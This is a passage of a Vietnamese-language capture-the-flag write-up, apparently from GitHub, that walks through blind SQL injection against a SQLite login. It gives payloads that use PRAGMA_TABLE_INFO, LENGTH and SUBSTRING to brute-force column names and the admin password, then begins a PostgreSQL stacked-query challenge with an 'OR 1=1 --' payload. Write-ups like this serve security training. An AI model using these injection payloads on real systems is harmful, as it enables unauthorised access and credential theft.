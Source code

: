 ![image](https://github.com/user-attachments/assets/274bb17c-cf12-4e49-8221-f13ee8dbd711)

- Cột đầu tiên không phải là `uid`, ta đổi qua cột khác bằng cách thêm `OFFSET 1`

![image](https://github.com/user-attachments/assets/890ccf2b-d540-45a3-82e5-ec5228c27d48)

![image](https://github.com/user-attachments/assets/a91d28c0-54f6-42ad-bcf3-debca4ac1a7e)

- Vậy cột đầu là cột cần tìm
- Xem độ dài tên cột này rồi Brute Force ra thui:
- Thử độ dài: `admin' AND (SELECT LENGTH(name) FROM PRAGMA_TABLE_INFO('users') LIMIT 1 OFFSET 0) = 3 --`

![image](https://github.com/user-attachments/assets/92138a38-5eb8-4a35-bec9-4367a4c16750)

- Dùng SUBSTRING() để Brute Force ra: `admin' AND (SELECT SUBSTRING(name, 1, 1) FROM PRAGMA_TABLE_INFO('users') LIMIT 1 OFFSET 0) = 'a' --`

![image](https://github.com/user-attachments/assets/43e68417-cea6-4da2-b6a2-25f9b96c675c)

- Ta được tên cột là `idx`, trong 3 cột thì cái có khả năng là mật khẩu nhất là `upw`
- Ta thử lấy thông tin của `upw` với `uid = admin`: `admin' AND (SELECT SUBSTRING(upw, 1, 1) FROM users WHERE uid = 'admin') = 'a' --`
- Rồi lại đưa lên Intruder để Brute Force nó

![image](https://github.com/user-attachments/assets/4b65567c-b760-4e75-b342-5e17ab96d7eb)

- Chuyển qua `/login` và đăng nhập với username = `admin` và pass = `y0u_4r3_4dm1n`

![image](https://github.com/user-attachments/assets/541b7fba-906d-4bc4-b231-9bed994354f8)

# 2. Baby SQL Injection to RCE

## Đầu bài cho biết
- Challenge đang chạy với PostgreSQL and PHP.
- Flag File: /flagXXXX.txt

## Hint
- Sử dụng Stacked Query: là việc có thể sử dụng nhiều câu truy vấn bằng cách ngăn cách giữa các câu truy vấn bằng dấu ';'

![image](https://github.com/user-attachments/assets/fca0de01-a3f1-463c-b405-30f503ab6a75)

## Giải

![image](https://github.com/user-attachments/assets/c6daf554-ff8e-498f-9ff7-d7bc60b5aee9)

- `'OR 1=1 --` có thể khai thác được lỗ hổng SQL ở đây
